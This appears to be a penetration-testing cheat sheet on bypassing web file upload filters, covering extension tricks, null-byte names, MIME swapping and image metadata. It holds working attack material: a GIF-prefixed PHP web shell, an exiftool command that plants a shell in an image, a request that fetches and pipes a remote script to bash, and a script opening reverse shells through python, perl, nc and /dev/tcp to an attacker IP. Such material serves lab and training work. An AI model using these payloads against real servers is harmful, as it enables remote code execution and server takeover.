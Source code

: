 # File upload bypass
According to OWASP the following list can be used by penetration testers in order to bypass a variety of protections.
- Content-Type —>Change the parameter in the request header using Burp, ZAP etc.
- Put server executable extensions like file.php5, file.shtml, file.asa, file.cert
- Changing letters to capital form file.aSp or file.PHp3
- Using trailing spaces and/or dots at the end of the filename like file.asp… … . . .. .. , file.asp , file.asp.
- Use of semicolon after the forbidden extension and before the permitted extension example: file.asp;.jpg (Only in IIS 6 or prior)
- Upload a file with 2 extensions—> file.php.jpg
- Use of null character—> file.asp%00.jpg
- Create a file with a forbidden extension —> file.asp:.jpg or file.asp::$data
- Combination of the above
## Bypassing Blacklists
Blacklisting is a type of protection where certain strings of data, in many cases, specific extensions, are explicitly prohibited from being sent to the web app server.
| Type       | Extention                                                       |
|------------|-----------------------------------------------------------------|
| php        | phtml, .php, .php3, .php4, .php5, .php6, .pht, .pHp, .Php, .phP |
| asp        | asp, .aspx                                                      |
| perl       | .pl, .pm, .cgi, .lib                                            |
| jsp        | .jsp, .jspx, .jsw, .jsv, and .jspf                              |
| Coldfusion | .cfm, .cfml, .cfc, .dbm                                         |
## Bypassing Whitelists
Using a reverse shell with a photo extension
```console
payload.php.jpg
```
Also using a *null character* injection we can bypass whitelist filters to make characters get ignored when the file is saved, injecting this between a forbidden extension and an allowed extension can lead to a bypass:
```console
payload.php%00.jpg OR payload.php\x00.jpg
```
Usually, if an whitelist accepts only images, it may also accept gif files too. Adding GIF89a; to the very top of your shell may help you bypass the restriction and let you execute the shell.
```console
GIF89a; <?php system($_GET['cmd']); ?>
```
## MIME Type
Blacklisting MIME types is also a method of file upload validation. It may be bypassed by intercepting the POST request on the way to the server and modifying the MIME type.
Normal php MIME type:
```console
Content-type: application/x-php
```
Replace with:
```console
Content-type: image/jpeg
```
## Exif Data, ExifTool (PHP getimagesize())
For file uploads which validate image size using php **getimagesize()**, it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as file.jpg.php.
```console
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
```
## Exploitation
```console
http://10.10.10.185/images/uploads/3.php.png?cmd=wget -O - http://10.10.16.5:1234/shell.sh | bash
```
 *don't forget to use burp to encode "wget -O - http://10.10.16.5:1234/shell.sh | bash"*
```console
http://10.10.10.185/images/uploads/3.php.png?cmd=%77%67%65%74%20%2d%4f%20%2d%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%36%2e%35%3a%31%32%33%34%2f%73%68%65%6c%6c%2e%73%68%20%7c%20%62%61%73%68
```
Create file *shell.sh*
```console
if command -v python > /dev/null 2>&1; then
        python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.5",5555)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
        exit;
fi
if command -v perl > /dev/null 2>&1; then
        perl -e 'use Socket;$i="10.10.16.5";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
        exit;
fi
if command -v nc > /dev/null 2>&1; then
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 5555 >/tmp/f
        exit;
fi
if command -v sh > /dev/null 2>&1; then
        /bin/sh -i >& /dev/tcp/10.10.16.5/5555 0>&1
        exit;
fi
```
 *You can create a shell.sh file and do the same as above, or you can also manually try **reverse shell commands** one by one.*
